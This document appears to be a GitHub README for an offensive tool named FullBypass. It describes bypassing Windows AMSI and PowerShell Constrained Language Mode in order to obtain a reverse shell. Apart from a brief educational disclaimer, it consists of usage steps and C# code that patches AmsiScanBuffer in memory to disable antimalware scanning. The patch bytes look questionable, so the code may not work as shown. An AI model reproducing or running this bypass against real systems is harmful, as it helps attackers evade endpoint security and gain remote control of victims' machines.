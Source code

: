 # FullBypass

## Disclaimer
This tool is intended for educational purposes only. Unauthorised use of this tool is prohibited. Use responsibly and ensure you have proper authorisation before testing any security measures.

## Overview
This repository contains a tool that demonstrates how to bypass AMSI (AntiMalware Scan Interface) and PowerShell Constrained Language Mode (CLM) to achieve a FullLanguage PowerShell reverse shell.

## Usage
1. Compile the C# code using `msbuild`.
2. Execute the compiled binary to disable AMSI.
3. Run the PowerShell script to establish a reverse shell.

## Basic C# Bypass Attempt
```csharp
using System;
using System.Runtime.InteropServices;

public class AMSIBypass
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    public static void Bypass()
    {
        var hModule = LoadLibrary("amsi.dll");
        var addr = GetProcAddress(hModule, "AmsiScanBuffer");
        VirtualProtect(addr, (UIntPtr)5, 0x40, out var oldProtect);
        Marshal.Copy(new byte[] { 0x31, 0xFF, 0x90 }, 0, addr, 3);
        VirtualProtect(addr, (UIntPtr)5, oldProtect, out _);
    }

    public static void Main(string[] args)
    {
        Bypass();
        Console.WriteLine("AMSI Bypass Applied");
    }
}
